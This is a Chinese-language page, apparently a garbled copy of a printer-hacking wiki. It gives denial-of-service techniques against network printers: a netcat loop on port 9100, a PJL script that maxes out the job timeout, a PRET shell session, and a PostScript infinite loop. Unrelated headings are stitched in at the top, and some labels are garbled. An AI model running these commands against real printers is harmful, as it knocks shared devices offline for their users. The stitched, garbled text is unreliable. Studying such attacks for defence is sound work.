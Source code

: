    

3. 植入恶意代码的方法

# 网络安全打印机安全研究与防护建议

各安全漏洞类型统计

# 打印机黑客维基

## 拒绝服务

### 传输通道

使用PJL时，设置高时间间隔。原理上类似于DoS攻击

#### netcat方法

```
while true; do nc printer 9100; done
```

#### PJL方法

```
# get maximum timeout value with PJL
MAX="`echo "@PJL INFO VARIABLES" | nc -w3 printer 9100 |\
  grep -E -A2 '^TIMEOUT=' | tail -n1 | awk '{print $1}'`"
# connect and set maximum timeout for current job with PJL
while true; do echo "@PJL SET TIMEOUT=$MAX" | nc printer 9100; done
```

#### PREF方法

```
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> env timeout
TIMEOUT=15 [2 RANGE]
       5
       300
```

### 处理文档

#### PostScript

最简单一种陷入死循环的方法

```
%!
{} loop
```
